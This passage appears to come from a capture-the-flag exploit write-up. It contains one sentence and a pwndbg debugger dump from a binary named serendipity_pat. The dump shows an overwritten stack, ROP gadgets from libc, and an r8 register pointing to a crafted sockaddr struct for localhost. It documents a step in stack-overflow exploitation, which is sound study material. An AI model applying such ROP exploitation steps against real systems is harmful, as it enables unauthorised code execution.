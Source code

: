 Fortunately, before it execute our rop chain, the r8 registers has been point to our sockaddr struct 

```c
 RAX  0x0
 RBX  0x7f744c1fe640 ◂— 0x7f744c1fe640
 RCX  0x7f744cb27c56 (sendto+118) ◂— cmp rax, -0x1000 /* 'H=' */
*RDX  0x0
 RDI  0x0
 RSI  0x560df594a3d4 ◂— "file can't be read\n"
 R8   0x560df594a3c0 ◂— 0x100007fa8d10002  // our sockaddr struct
 R9   0x10
 R10  0x0
 R11  0x293
 R12  0x7f744c1fe640 ◂— 0x7f744c1fe640
 R13  0x0
 R14  0x7f744ca947d0 (start_thread) ◂— endbr64 
 R15  0x7ffed7952e20 ◂— 0x0
 RBP  0x7f744c1fde50 ◂— 0x4141414141414141 ('AAAAAAAA')
 RSP  0x7f744c1fdaf0 ◂— 0x0
*RIP  0x560df4890e70 ◂— je 0x560df4890e77
*EFLAGS 0x246 [ cf PF af ZF sf IF df of ]
──────────────────────────────────────────────────────────────────────────[ DISASM / x86-64 / set emulate on ]───────────────────────────────────────────────────────────────────────────
   0x560df4890d19                             call   0x560df48909b9                <0x560df48909b9>
 
   0x560df4890d1e                             mov    eax, 0
   0x560df4890d23                             jmp    0x560df4890e63                <0x560df4890e63>
    ↓
   0x560df4890e63                             mov    rdx, qword ptr [rbp - 8]
   0x560df4890e67                             sub    rdx, qword ptr fs:[0x28]
 ► 0x560df4890e70                           ✔ je     0x560df4890e77                <0x560df4890e77>
    ↓
   0x560df4890e77                             leave  
   0x560df4890e78                             ret    
    ↓
   0x7f744ca2a3e5 <iconv+197>                 pop    rdi
   0x7f744ca2a3e6 <iconv+198>                 ret    
    ↓
   0x7f744ca796a2 <printf_positional+5666>    pop    rdx
────────────────────────────────────────────────────────────────────────────────────────[ STACK ]────────────────────────────────────────────────────────────────────────────────────────
00:0000│ rsp 0x7f744c1fdaf0 ◂— 0x0
01:0008│     0x7f744c1fdaf8 —▸ 0x560df598b360 —▸ 0x560df594a3c0 ◂— 0x100007fa8d10002
02:0010│     0x7f744c1fdb00 ◂— 0x0
03:0018│     0x7f744c1fdb08 ◂— 0x0
04:0020│     0x7f744c1fdb10 —▸ 0x560df594a3c0 ◂— 0x100007fa8d10002
05:0028│     0x7f744c1fdb18 —▸ 0x7f7444000b70 ◂— 0xc7ccaec0fbfe94bc
06:0030│     0x7f744c1fdb20 ◂— 0x0
07:0038│     0x7f744c1fdb28 ◂— 0x0
──────────────────────────────────────────────────────────────────────────────────────[ BACKTRACE ]──────────────────────────────────────────────────────────────────────────────────────
 ► 0   0x560df4890e70
   1   0x7f744ca2a3e5 iconv+197
   2   0x7f744ca796a2 printf_positional+5666
   3   0x7f744ca796a2 printf_positional+5666
   4   0x7f744ca796a2 printf_positional+5666
──────────────────────────────────────────────────────────────────────────────────[ THREADS (3 TOTAL) ]──────────────────────────────────────────────────────────────────────────────────
  ► 3   "serendipity_pat" stopped: 0x560df4890e70
    1   "serendipity_pat" stopped: 0x7f744cb1b82d <select+349> 
    2   "serendipity_pat" stopped: 0x7f744cae57f8 <clock_nanosleep@GLIBC_2.2.5+200> 
─────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
```